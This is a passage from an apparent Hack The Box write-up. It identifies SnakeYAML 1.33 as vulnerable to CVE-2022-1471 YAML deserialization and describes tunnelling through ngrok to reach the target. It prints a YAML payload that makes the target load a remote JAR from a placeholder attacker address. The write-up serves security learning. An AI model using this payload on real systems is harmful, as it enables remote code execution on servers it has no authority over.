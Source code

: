 Also we have the `snakeyml` version which is the 1.33

![a02bc3d66c913cf8a1131e6eb534a98c.png](img/a02bc3d66c913cf8a1131e6eb534a98c.png)

With all this info I can move on the internet and search for somevulnerability and I have understood that the specific version of `snakeyml` (< 2.0) is vulnerable to....**YAML DESERIALIZATION** more in detail [CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471)

We can use this payload to remotely download a JAR file that will contain the payload

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://[ATTK_IP]/yaml-payload.jar"]
  ]]
]
```

At first try I have assumed I was on the wrong path because I tried to ping my HTB ip address but everythig failed, looking around at few writeup we need to create a ngrok tunnel (the remote machine probably doesmn't have connection on the HTB virtual interface, interesting)

So creating the tunnel and use it as payload we are able to intercept the requests (luckly I had a preconfigured account)

![c91610344bc89ab4d5b51d0e05591906.png](img/c91610344bc89ab4d5b51d0e05591906.png)

![f7450e6f581b81cde279970bf95f35d2.png](img/f7450e6f581b81cde279970bf95f35d2.png)
